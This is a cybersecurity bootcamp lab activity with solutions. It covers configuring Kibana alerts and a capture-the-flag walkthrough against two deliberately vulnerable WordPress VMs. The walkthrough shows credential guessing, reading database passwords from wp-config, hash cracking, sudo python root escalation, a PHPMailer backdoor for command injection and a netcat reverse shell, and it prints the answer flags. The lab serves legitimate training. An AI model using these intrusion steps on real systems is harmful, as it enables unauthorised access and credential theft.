

## Activity File: Alert and Attacking Targets 1 and 2

Over the next two days, you must revisit your work from Project 2, implement at least three threshold alerts, and capture flags on two vulnerable VMs.

### Instructions

#### Configuring Alerts

Complete the following to configure alerts in Kibana:
1.  Enable the Kibana Premium Free Trial.

2. Click **Management** > **Watcher** > **Create Alert** > **Create Threshold Alert**

3. Implement three of the alerts you designed at the end of Project 2. After implementing each rule, log into the Kali VM and perform the steps from your previous exploitation against the Capstone VM. Make sure the alerts fire when expected.

You are free to configure any alerts you'd like, but we recommend starting with the following:
- **Excessive HTTP Errors**

  ```kql
  WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
  ```
  
- **HTTP Request Size Monitor**

  ```kql
  WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
  ```

- **CPU Usage Monitor**

  ```kql
  WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes
  ```

#### Attacking Target 1
Now that you've configured alerts, you'll attack two new vulnerable VMs on the network: Target 1 and Target 2.

- Both Target 1 and Target 2 expose the same website. The pages look the same and both contain four flags. However, each web server has different vulnerabilities. First, you will focus on capturing flags on Target 1, the more vulnerable of the two.

Complete the following high-level steps:
1. Scan the network to identify the IP addresses of Target 1.

  ```bash
  # Ping Sweep w/ NMap
  $ nmap -sP 192.168.1.1-255
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 15:59 EDT
  Nmap scan report for 192.168.1.1 (192.168.1.1)
  Host is up (0.26s latency).
  MAC Address: 18:90:68:97:97:57 (Unknown)
  Nmap scan report for 192.168.1.90 (192.168.1.90)
  Host is up (0.020s latency).
  MAC Address: 88:E9:FE:65:17:B0 (Unknown)
  Nmap scan report for 192.168.1.100 (192.168.1.100)
  Host is up (0.020s latency).
  MAC Address: 88:E9:FE:65:16:F0 (Unknown)
  Nmap scan report for 192.168.1.115 (192.168.1.115)
  Host is up (0.020s latency).
  MAC Address: 88:E9:FE:65:16:C0 (Unknown)
  ```

   Note that hosts `192.168.1.110` and `192.168.1.115` are up, in particular. This solution focuses on the former.

2. Document all exposed ports and services.

  ```bash
  $ nmap -sV 192.168.1.110
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 16:38 PDT
  Nmap scan report for 192.168.1.110
  Host is up (0.00082s latency).
  Not shown: 995 closed ports
  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
  111/tcp open  rpcbind     2-4 (RPC #100000)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:10 (Microsoft)
  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
  ```

   Note, in particular, that port `80` is open.

3. Enumerate the WordPress site. One flag is discoverable after this step.
     - **Hint**: Look for the `Users` section in the output.

   ```bash
   # Use wpscan to enumerate users and vulnerable plugins
   $ wpscan –-url http://192.168.1.110/wordpress -eu
   # Generates a lot of output. The important part is as follows:
   [+] User(s) identified:
   [+] steven
    | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
    | Confirmed By: Login Error Messages (Aggressive Detection)

   [+] michael
    | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
    | Confirmed By: Login Error Messages (Aggressive Detection)
   ```

   These two usernames can be used to gain a user shell.

4. Use SSH to gain a user shell. Two flags can be discovered at this step.
     - **Hint**: Guess `michael`'s password. What's the most obvious possible guess?

    ```bash
    # Log in as michael
    $ ssh michael@192.168.1.110
    Enter password: michael
    # Move to the website root directory to find flag2
    michael@target1:~$ cd /var/www
    michael@target1:/var/www$ ls
    flag2.txt
    michael@target1:/var/www$ cat flag2.txt
    flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    # Search for the word `flag` in all files to find flag1
    michael@target1:/var/www$ grep -RE 'flag\d' ./html/
    # Prints very long output -- but, the very last line contains flag1!
    ./vendor/examples/scripts/XRegExp.js:	RegExp.prototype.validate = function (s) {var r = RegExp("^(?:" + this.source + ")$(?!\\s)", getNativeFlags(this)); if (this.global) this.lastIndex = 0; return s.search(r) === 0;};
    ./vendor/composer.lock:	"stability-flags": [],
    ./service.html:             	<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    # Alternatively, search for the flag directly
    michael@target1:/var/www$ grep -REioh flag[[:digit:]]{.+} ./html
    flag1{b9bbcb33e11b80be759c4e844862482d}
    ```

5. Find the MySQL database password.

     - **Hint**: Look for a `wp-config.php` file in `/var/www/html`.

    ```bash
    # Search for database configuration files
    michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
    # Extra code omitted...
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress')

    /** MySQL database username */
    define('DB_USER', 'root')

    /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity')
    # Extra code omitted...
    ```

6. Use the credentials to log into MySQL and dump WordPress user password hashes.

   ```bash
   # Log into MySQL
   michael@target1:~$ mysql -u root -p
   Enter password: R@v3nSecurity
   Welcome to the MySQL monitor. Commands end with ; or \g.
   Your MySQL connection id is 90
   Server version: 5.5.60-0+deb8u1 (Debian)

   mysql> show databases;
   +---------------------------+
   | Database                  |
   +---------------------------+
   | information_schema        |
   | mysql                     |
   | performance_schema        |
   | wordpress                 |
   +---------------------------+
   4 rows in set (0.00 sec)

   -- Switch to wordpress database
   mysql> use wordpress;
   Reading table information for completion of table and column names
   You can turn off this feature to get a quicker startup with -A
   
   Database changed
   mysql> show tables;
   +---------------------------+
   | Tables                    |
   +---------------------------+
   | wp_commentmeta            |
   | wp_comments               |
   | wp_links                  |
   | wp_options                |
   | wp_postmeta               |
   | wp_posts                  |
   | wp_users                  |
   | # Rest omitted...         |
   +---------------------------+
   12 rows in set (0.00 sec)

    mysql> select * from users;
     ```

   
    
  ```sql
    -- Find flag3.txt in the blog
    mysql> select * from wp_posts;
    -- Prints a lot of text; scroll through it to find flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
  | flag4    	|          	| inherit 	| closed     	| closed  	|           	| 4-revision-v1 |     	|    	| 2018-08-12 23:31:59 | 2018-08-12 23:31:59 |                   	|       	4 | http://raven.local/wordpress/index.php/2018/08/12/4-revision-v1/ |      	0 | revision  |            	|         	0 |
  |  7 |       	2 | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 | flag3{afc01ab56b50591e7dccf93122770cd2}                                                                         	
  ```


7. Crack password hashes with `john`.

   -  Create a wp_hashes.txt with Steven and Michael's hashes, formatted as follows
    
      ```
      michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0
      steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/
      ```
   - Use `john` to crack the hashes.

      ```bash
      # Michael's password won't crack
      $ john wp_hashes.txt
      $ john -show wp_hashes.txt
      steven:pink84
      ```

8. Secure a user shell as the user whose password you cracked.

    ```bash
    $ ssh steven@192.168.1.110
    Enter password: pink84
    ```

9. Escalate to `root`.
   - One flag can be discovered after this step.:w

  ```bash
  $ sudo python -c 'import pty;pty.spawn("/bin/bash");'
  root@TARGET1:/ > id
  uid=0(root) gid=0(root) groups=0(root)
  root@TARGET1:/ > cd /root
  root@TARGET1:/root > ls
  flag4.txt
  root@TARGET1:/root > cat flag4.txt
   ______                 	 
  | ___ \                	 
  | |_/ /__ ___   _____ _ __  
  |	/  /  _` \ \ / / _ \ '_ \
  | |\ \ (_| |\ V /  __/ | | |
  \_| \_\__,_| \_/ \___|_| |_|

                          
  flag4{715dea6c055b9fe3337544932f2941ce}

  CONGRATULATIONS on successfully rooting Raven!

  This is my first Boot2Root VM - I hope you enjoyed it.

  Hit me up on Twitter and let me know what you thought:

  @mccannwj / wjmccann.github.io
  ```

Try to complete all of these steps. However, you may move on after capturing only _two_ of the four flags if you're running out of time.

#### Attacking Target 2

Please note, you **do not need to attack Target 2**. It is included as an additional challenge for those who are interested in assessing a more complex web application. You should complete the Wireshark analysis _first_, and only attempt this challenge afterwards. 

The steps for completing this assessment are enumerated below. All details required to capture the first 3 flags on Target 2 are included.

1. Use Nmap to identify the IP address of Target 2.

  ```bash
  # Reveals Target 2 at `192.168.1.115`
  $ nmap -sP 192.168.1.1-255
  ```

2. Use Nmap to document all exposed ports and services at this IP address.

  ```bash
  # Reveals Target 2 at `192.168.1.115`
  $ nmap -sV 192.168.1.115
  ```

3. Enumerate the web server with `nikto`.
     - **Hint**: Run: `nikto -C all -h <URL>`.
     - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

  ```bash
  # Generate a list of discovered URLs
  # Note that this discovers `wordpress` directories
  $ nikto -C all -h http://192.168.1.115
  ```

  **HINT**: Don't spend too much time with `nikto` before moving on to `gobuster`. Use it to gain more insight into the system, and then move on.

4. Perform a more in-depth enumeration with `gobuster`.
     - **Hint**:
       - Run `apt install gobuster`
       - Run `gobuster -w /path/to/wordlist dir -u <URL>`
       - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
       - Pay attention to the `/vendor` directory. There's a `flag` in here.

    - **Solution**

      - The enumeration command is:
      ```bash
      $ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115
      ```
 
   Navigating to `http://192.168.1.115/vendor` reveals a `flag1.txt` in the directory.

5. Use “searchsploit” to find any known vulnerabilities associated with the programs found in Step #4.
    - Run: `searchsploit phpmailer` to find the related vulnerability.

6. Use the `exploit.sh` script to exploit this vulnerability by opening an ncat connection to your Kali VM.
    - The easiest way to get the script onto the Kali VM is to use a web text/paste service like https://pastebin.com to copy the script from your local machine to the web, and then retrieve it from the Kali Machine.
    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.
    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute **command injection attacks**.
    - Navigate to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`.
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`
    - Next, use the backdoor to open a shell session on the target.
      - On your **Kali** VM, start a netcat listener with `nc -lnvp 4444`.
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

    **Solution**

      - First, edit line 4 in `exploit.sh` to read: `TARGET=http://192.168.1.115/contact.php`.

      - Then, execute the script: `bash exploit.sh`.

      - Next, start an ncat listener with `nc -lvp 4444`

      - Finally, navigate to the following URL in the browser: `http://192.168.1.115?cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

    ```bash
    $ ls /var/www
    flag2.txt
    ```

8. Next, find a flag in the WordPress uploads directory.
     
     - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

      ```bash
      $ find /var/www/html -type f -iname 'flag*'
      /var/www/html/wp-content/uploads/2018/11/flag3.txt
      ```

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult. For now, move on to completing a report about Target 2.

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
